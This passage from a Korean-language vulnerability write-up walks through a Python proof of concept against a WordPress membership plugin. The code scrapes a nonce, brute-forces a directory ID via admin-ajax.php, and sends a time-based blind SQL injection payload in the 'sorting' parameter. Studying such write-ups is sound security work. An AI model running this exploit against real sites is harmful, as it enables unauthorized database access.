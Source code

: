 **3.4 로그아웃**

설정을 변경한 뒤 로그아웃한다.

```python
def logout(session):
    """Log out from the WordPress site."""
    response = session.get(f"{TARGET}/logout", proxies=proxies)
    if response.status_code == 200:
        print("[bold green][+] Successfully logged out.")
    else:
        print("[bold red][-] Failed to log out.")
        sys.exit(0)
```

**3.5 Brute Force & SQL Injection**

`register` 페이지에서 `nonce` 값을 획득하고 **Brute Force** 요청을 보내 `directory_id`를 찾아낸다. 이후 유효한 `directory_id`는 `sorting`과 함께 **SQL Injection** 공격에서 사용된다.

```python
def get_nonce():
    """Extract nonce value for further requests."""
    response = requests.get(f"{TARGET}/register", proxies=proxies)
    match = re.search(r'um_scripts\s*=\s*\{[^}]*"nonce":"([^"]+)"', response.text)

    if match:
        nonce = match.group(1)
        print(f"[bold green][+] Nonce value found: {nonce}.")
        return nonce
    else:
        print("[bold red][-] Failed to find nonce value.")
        sys.exit(0)

def get_directory_id(nonce):
    """Find a valid directory ID using the nonce."""
    for i in range(1, 100):
        directory_id = hashlib.md5(str(i).encode()).hexdigest()[10:15]
        payload = {
            "action": "um_get_members",
            "nonce": nonce,
            "directory_id": directory_id,
        }

        response = requests.post(f"{TARGET}/wp-admin/admin-ajax.php", data=payload, proxies=proxies)
        if response.status_code == 200 and '"success":true' in response.text:
            print(f"[bold green][+] Valid directory ID found: {directory_id}.")
            return directory_id
    print("[bold red][-] Failed to find a valid directory ID.")
    sys.exit(0)

def attempt_sql_injection(nonce, directory_id):
    """Attempt an SQL injection using the provided nonce and directory ID."""
    payload = {
        "action": "um_get_members",
        "nonce": nonce,
        "directory_id": directory_id,
        "sorting": "ID AND (SELECT 42 FROM (SELECT(SLEEP(5)))b)",
    }

    start_time = time.time()
    response = requests.post(f"{TARGET}/wp-admin/admin-ajax.php", data=payload, proxies=proxies)
    end_time = time.time()

    elapsed_time = end_time - start_time
```